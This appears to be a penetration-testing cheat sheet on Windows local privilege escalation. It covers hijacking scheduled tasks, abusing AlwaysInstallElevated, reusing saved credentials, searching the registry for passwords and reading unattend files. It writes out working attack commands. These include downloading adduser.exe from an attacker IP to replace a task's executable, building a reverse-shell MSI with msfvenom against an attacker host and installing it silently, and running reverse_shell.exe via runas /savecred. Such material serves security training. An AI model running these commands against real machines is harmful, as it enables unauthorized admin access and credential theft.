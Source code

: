 # Quick Wins

## Scheduled Tasks

We should seek interesting information in the _Author_, _TaskName_, _Task To Run_, _Run As User_, and _Next Run Time_ fields. In our case, "interesting" means that the information partially or completely answers one of the three questions above.

{% code title="Display a list of all scheduled tasks" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\steve> schtasks /query /fo LIST /v
...
Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        7/11/2022 2:47:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/11/2022 2:46:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          daveadmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
...

```
{% endcode %}

{% code title="Display permissions on the executable file BackendCacheCleanup.exe" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\steve> icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                CLIENTWK220\steve:(I)(F)
                                                CLIENTWK220\offsec:(I)(F)
```
{% endcode %}

{% code title="Download and replace executable file BackendCacheCleanup.exe" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\steve> iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe

PS C:\Users\steve> move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak

PS C:\Users\steve> move .\BackendCacheCleanup.exe .\Pictures\
```
{% endcode %}

Scheduled tasks can be listed from the command line using the `schtasks` command, using the task scheduler, or, if possible, uploading a tool such as Autoruns64.exe to the target system.

## AlwaysInstallElevated



Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges if the installation requires administrator privileges.\
This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

\
This method requires two registry values to be set. You can query these from the command line using the commands below.\
\
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`\
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`\
\
Remember, to be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible.\
If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below.\
\
`msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_10.10.200.175 LPORT=LOCAL_PORT -f msi -o malicious.msi`\
\
As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly.\
\
Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell.

Command Run on the Target System

```shell-session
C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Passwords

### Saved credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials.\
`cmdkey /list`\


If you see any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.\
`runas /savecred /user:admin reverse_shell.exe`\


### **Registry keys**

Registry keys potentially containing passwords can be queried using the commands below.\
`reg query HKLM /f password /t REG_SZ /s`\
`reg query HKCU /f password /t REG_SZ /s`\


### **Unattend files**

Unattend.xml files helps system administrators setting up Windows systems. They need to be deleted once the setup is complete but can sometimes be forgotten on the system. What you will find in the unattend.xml file can be different according to the setup that was done. If you can find them on a system, they are worth reading.
